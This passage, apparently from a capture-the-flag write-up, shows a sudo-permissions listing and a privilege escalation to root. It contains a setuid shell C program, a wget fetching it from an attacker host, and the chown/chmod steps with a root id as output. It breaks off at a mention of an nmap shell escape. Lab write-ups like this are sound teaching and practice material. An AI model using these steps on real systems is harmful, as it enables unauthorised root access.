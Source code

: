 ```bash
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper
```
There're several ways to escalate to root with these permissions:

- We can use chmod + chown to creater a setuid executable that automatically elavate us to root

setuid.c

```c
#include <stdlib.h>
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main()
{
    setuid(0);
    setgid(0);
    system("/bin/sh");
    return 0;
}
```

```bash
wget http://10.10.14.5:8080/setuid.c
--2021-01-21 18:58:42--  http://10.10.14.5:8080/setuid.c
Connecting to 10.10.14.5:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 164 [text/plain]
Saving to: `setuid.c'

     0K                                                       100% 38.8M=0s

2021-01-21 18:58:42 (38.8 MB/s) - `setuid.c' saved [164/164]

gcc setuid.c -o setuid
ls -la setuid 
-rwxr-xr-x 1 asterisk asterisk 5144 Jan 21 18:58 setuid
sudo chown root setuid
sudo chmod 4777 setuid
./setuid
id
uid=0(root) gid=0(root) groups=101(asterisk)
```

- we can use nmap to run an interactive shell and then drop /bin/sh:
